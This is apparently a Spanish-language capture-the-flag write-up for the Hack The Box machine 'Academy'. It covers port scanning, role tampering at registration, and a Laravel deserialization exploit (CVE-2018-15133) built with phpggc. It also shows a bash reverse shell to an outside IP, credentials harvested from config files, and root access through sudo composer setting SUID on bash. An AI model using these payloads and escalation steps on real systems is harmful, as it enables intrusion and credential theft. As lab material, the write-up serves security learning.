

Academy HTB
Recon
-
Se comprueba que la máquina está activa:
ping 10.10.10.215
Enum
-
Se realiza un scan de los 65535 puertos TCP:
nmap -sS -Pn -n --open --min-rate 5000 -p- -vvv -oG allPorts 10.10.10.215 -
Se realiza un scan de los puertos abiertos:
nmap -sC -sV -p22,80,33060 10.10.10.215 -oN openPortsPORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA) | 256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA) |_ 256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519) 80/tcp open http Apache httpd 2.4.41 ((Ubuntu)) |_http-title: Did not follow redirect to http://academy.htb/ |_http-server-header: Apache/2.4.41 (Ubuntu) 33060/tcp open mysqlx? | fingerprint-strings: | DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: | Invalid message" |_ HY000 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port33060-TCP:V=7.92%I=7%D=8/5%Time=62EC57E3%P=x86_64-pc-linux-gnu%r(NU SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\ SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")% SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\ SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie, SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0 SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\ SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9, SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00 SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9 SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08 SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions, SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0 SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\ SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000" SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\ SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r( SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08 SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"); Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Acceso a la web
-
Accediendo a academy.htb/register.htb podemos registrarnos para acceder desde login.php
-
Pero para acceder a admin.php se puede modificar el rol desde el registro usando burp:
POST /register.php HTTP/1.1 Host: academy.htb User-Agent: Mozilla/4.77 en (X11; U; Linux 2.4.9 i686) Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 48 Origin: http://academy.htb DNT: 1 Connection: close Referer: http://academy.htb/register.php Cookie: PHPSESSID=60i29vhf1m8hmsgv3dgj8ba5bo Upgrade-Insecure-Requests: 1 Sec-GPC: 1 uid=usuarioX&password=passd123&confirm=passw123&roleid=1 -
Tras logar en admin.php esto nos lleva a la página http://academy.htb/admin-page.php donde se descubre un nuevo subdominio:

Explotation - Intrusion
-
Tras acceder al subdominio se pueden ver errores de depuración que indican que utiliza Laravel y nos filtra la key de la API:
-
Generar payload serializado para Laravel en base64:
./phpggc Laravel/RCE3 system whoami -b
Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6MTp7czo5OiIAKgBldmVudHMiO086Mzk6IklsbHVtaW5hdGVcTm90aWZpY2F0aW9uc1xDaGFubmVsTWFuYWdlciI6Mzp7czo2OiIAKgBhcHAiO3M6Njoid2hvYW1pIjtzOjE3OiIAKgBkZWZhdWx0Q2hhbm5lbCI7czoxOiJ4IjtzOjE3OiIAKgBjdXN0b21DcmVhdG9ycyI7YToxOntzOjE6IngiO3M6Njoic3lzdGVtIjt9fX0= -
Utilizar la key filtrada y el payload para generar un token para inyectarlo posteriormente:
./cve-2018-15133.php dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGl......YToxOntzOjE6IngiO3M6Njoic3lzdGVtIjt9fX0=
PoC for Unserialize vulnerability in Laravel <= 5.6.29 (CVE-2018-15133) by @kozmic HTTP header for POST request: X-XSRF-TOKEN: eyJpdiI6ImpxNmxRZlV6Z0szekRVOE4xcVJwMFE9PSIsInZhbHVlIjoiSGZGXC9vVk1rY1M2dUFLdTVoNmpwOFNSZkpRQk1jTytCNjN6SUJUNFwvMEpJOFRcL2RYTVBOb1VoODl2VlBWOEl3dVJqb2hqaDdLUU5uSU9peGx5QWh3SEhIT29KaUVnK1Y0dDJBdm9vdkk4a3ozRjFJeVRMeDdXUkFyMkxmaDZTbXhLbWpBMGpON25Wb0RKTzVGWUpSRnNHbWR1K2xmR3l3Q1QweEc4Sm5oVkFaMCtSdENsSE9taVd3SmJuUnh6d1NsT1JzVWZKWHR3M0RJVjNnc2Juc25DS0pIOWx2blgxVFlxd0hCR3VaSXJOODc3ZTE5b1M2alcyK1J2SU9MWVh5VDBhbzgzRWg5XC9kbHc0ZTZOekdwVHRJSmQ4TUFRZXdHV2J0ZFVvcTN5WWtubTI2c0g2eFg5aTVvQVArbmhOSnp3IiwibWFjIjoiOWE0OTM4ODhkM2RlODgzMjljNjA0YWNlMjAxYjgyN2Q2ZjRlNjZjZmU1MmEyMmQxYzY4YjM2YjExODYwNzg3NiJ9 -
Inyección del token con Curl:
curl -s http://dev-staging-01.academy.htb -X POST -H 'X-XSRF-TOKEN: eyJpdiI6ImtoRnBzVDhVcHIrS......MjNlMTE2ZThkYWE3MGYwMWJlZmY1M2MxMDEzNzlmOTNlYTgyNzBmIn0='| head -n 1
-
Se lanza una shell reversa y se obtiene acceso como www-data:
./phpggc laravel/rce3 system "bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'" -b Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6MTp7czo5OiIAKgBldmVudHMiO086Mzk6IklsbHVtaW5hdGVcTm90aWZpY2F0aW9uc1xDaGFubmVsTWFuYWdlciI6Mzp7czo2OiIAKgBhcHAiO3M6NTA6ImJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTEvNDQzIDA+JjEnIjtzOjE3OiIAKgBkZWZhdWx0Q2hhbm5lbCI7czoxOiJ4IjtzOjE3OiIAKgBjdXN0b21DcmVhdG9ycyI7YToxOntzOjE6IngiO3M6Njoic3lzdGVtIjt9fX0= ./cve-2018-15133.php dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6MTp7czo5OiIAKgBldmVudHMiO086Mzk6IklsbHVtaW5hdGVcTm90aWZpY2F0aW9uc1xDaGFubmVsTWFuYWdlciI6Mzp7czo2OiIAKgBhcHAiO3M6NTA6ImJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTEvNDQzIDA+JjEnIjtzOjE3OiIAKgBkZWZhdWx0Q2hhbm5lbCI7czoxOiJ4IjtzOjE3OiIAKgBjdXN0b21DcmVhdG9ycyI7YToxOntzOjE6IngiO3M6Njoic3lzdGVtIjt9fX0= PoC for Unserialize vulnerability in Laravel <= 5.6.29 (CVE-2018-15133) by @kozmic HTTP header for POST request: X-XSRF-TOKEN: eyJpdiI6IndKMW92NHM3MDFKbk9hd3l5Z0NxMVE9PSIsInZhbHVlIjoiK1NoVG5OTkVQSkxxV05hQmowRlRTVitzY0M0cWwxV0RJaXloVmJIR0dZanpoYTRROFNRZ01IeDRGdHdTQmpjelhucDlwekdzZVpzalNkUlpFekZkQkorcitYd2dTUmdxQXpsOU1USis5alhnd1hKcnZxRFVmaGtocmpvYmJ0bHdQNGtrRmNKU0lIdTcxUnZHZnRwblZSWDYyUk1EczVCdXJiSmdmYitCUzVkak5GV0lzRXdRYVpjYjhMRFpSMzZHdUwyQitZK0xTMDNxSFwvdE9KdWFCNFY0Z2tndnNEOVFueSs3OGFLXC9xK2VPSFwvMjRNcmlNRnpDMFBTR09LWmZ3aG9qZ0cxYXJlN3pMazhYdGxWVG1lZExtZzQydW5wdVNzNk9qTEFobFNzd01zWStLK01oeWFRK2ZwVzhhTEJGVlBrZ2FOZWlhZTJ5OGFuVzdpZ3FJb1padU5IZmNJWnZiQm9HMDgzZEN2RUlQRlpNSkY1K1k5OW9BNUU2OXFpUkl6IiwibWFjIjoiZTVjOTVlZmRlMDBhN2UxZjNhZDUwZGI2MDkxMzEyZDkyYjhiZGU0ZDBmZjViNzZhZTBiNTc3ZGJmMWE5NzEwOSJ9 curl -s http://dev-staging-01.academy.htb -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IndKMW92NHM3MDFKbk9hd3l5Z0NxMVE9PSIsInZhbHVlIjoiK1NoVG5OTkVQSkxxV05hQmowRlRTVitzY0M0cWwxV0RJaXloVmJIR0dZanpoYTRROFNRZ01IeDRGdHdTQmpjelhucDlwekdzZVpzalNkUlpFekZkQkorcitYd2dTUmdxQXpsOU1USis5alhnd1hKcnZxRFVmaGtocmpvYmJ0bHdQNGtrRmNKU0lIdTcxUnZHZnRwblZSWDYyUk1EczVCdXJiSmdmYitCUzVkak5GV0lzRXdRYVpjYjhMRFpSMzZHdUwyQitZK0xTMDNxSFwvdE9KdWFCNFY0Z2tndnNEOVFueSs3OGFLXC9xK2VPSFwvMjRNcmlNRnpDMFBTR09LWmZ3aG9qZ0cxYXJlN3pMazhYdGxWVG1lZExtZzQydW5wdVNzNk9qTEFobFNzd01zWStLK01oeWFRK2ZwVzhhTEJGVlBrZ2FOZWlhZTJ5OGFuVzdpZ3FJb1padU5IZmNJWnZiQm9HMDgzZEN2RUlQRlpNSkY1K1k5OW9BNUU2OXFpUkl6IiwibWFjIjoiZTVjOTVlZmRlMDBhN2UxZjNhZDUwZGI2MDkxMzEyZDkyYjhiZGU0ZDBmZjViNzZhZTBiNTc3ZGJmMWE5NzEwOSJ9'| head -n 1 nc -lvnp 443 www-data@academy:/home$ whoami www-data
Lateral Movement
-
Se inspeccionan archivos y configuraciones:
www-data@academy:/var/www/html/academy/public$ cat config.php <?php ini_set('display_errors', 1); ini_set('display_startup_errors', 1); error_reporting(E_ALL); $link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy'); ?> www-data@academy:/var/www/html/academy$ cat .env APP_NAME=Laravel APP_ENV=local APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= APP_DEBUG=false APP_URL=http://localhost LOG_CHANNEL=stack DB_CONNECTION=mysql DB_HOST=127.0.0.1 DB_PORT=3306 DB_DATABASE=academy DB_USERNAME=dev DB_PASSWORD=mySup3rP4s5w0rd!! -
Revisando la bbdd se encuentra un hash que podría ser interesante, pero no sirve:
mysql> select * from users; +----+-----------------------------------+----------------------------------+--------+---------------------+ | id | username | password | roleid | created_at | +----+-----------------------------------+----------------------------------+--------+---------------------+ | 5 | dev | a317f096a83915a3946fae7b7f035246 | 0 | 2020-08-10 23:36:25 | -
Se accede a otra sesión como cry0l1t3 con la password mySup3rP4s5w0rd!! y al estar en el grupo adm investigamos logs:
-
Se accede como mrb3n con password mrb3n_Ac@d3my!:
Escalate Privileges (root)
-
Desde el usuario mrb3n se encuentran comandos que se puede ejecutan con sudo, se aprovecha para escalar:
mrb3n@academy:/var/www/html/htb-academy-dev-01$ sudo -l [sudo] password for mrb3n: Matching Defaults entries for mrb3n on academy: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User mrb3n may run the following commands on academy: (ALL) /usr/bin/composer mrb3n@academy:/var/www/html/htb-academy-dev-01$ sudo /usr/bin/composer exec chmod 4755 /bin/bash PHP Warning: PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0 PHP Warning: PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0 Do not run Composer as root/super user! See https://getcomposer.org/root for details mrb3n@academy:/var/www/html/htb-academy-dev-01$ /bin/bash -p bash-5.0# whoami oot bash-5.0# cat /root/root.txt **1d0792525f28ddb9a968d7996a285dfc**